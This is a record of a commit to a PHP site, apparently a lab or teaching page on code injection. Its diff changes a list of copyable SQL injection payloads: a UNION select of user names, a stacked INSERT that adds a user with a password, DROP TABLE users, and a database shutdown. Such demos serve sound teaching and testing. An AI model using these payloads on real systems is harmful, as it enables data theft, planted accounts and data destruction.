

Before and after one commit to vtHau/anm, a PHP site: page /index.php in a window 1280 px wide, after a click on "Code Injection". Shown: the part 642-1089 px from the top of the page, without its empty margins (319-959 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
updatw all

```diff
--- a/inc/header.php
+++ b/inc/header.php
@@ -76,15 +76,19 @@
             <div class="copy">Copy</div>
           </div>
           <div class="text-code alert alert-success">
-            <div class="text">' UNION select name, description from users #</div>
+            <div class="text">' UNION select first_name, last_name from users #</div>
             <div class="copy">Copy</div>
           </div>
           <div class="text-code alert alert-success">
-            <div class="text">' UNION SELECT * FROM users #</div>
+            <div class="text">' ; INSERT INTO users(user, last_name, first_name, password) VALUE("test", "Test 1", "Test 2", "1234") #</div>
             <div class="copy">Copy</div>
           </div>
           <div class="text-code alert alert-success">
             <div class="text">' ; DROP TABLE users #</div>
+            <div class="copy">Copy</div>
+          </div>
+          <div class="text-code alert alert-success">
+            <div class="text">'; shutdown # #</div>
             <div class="copy">Copy</div>
           </div>
         </div>
```
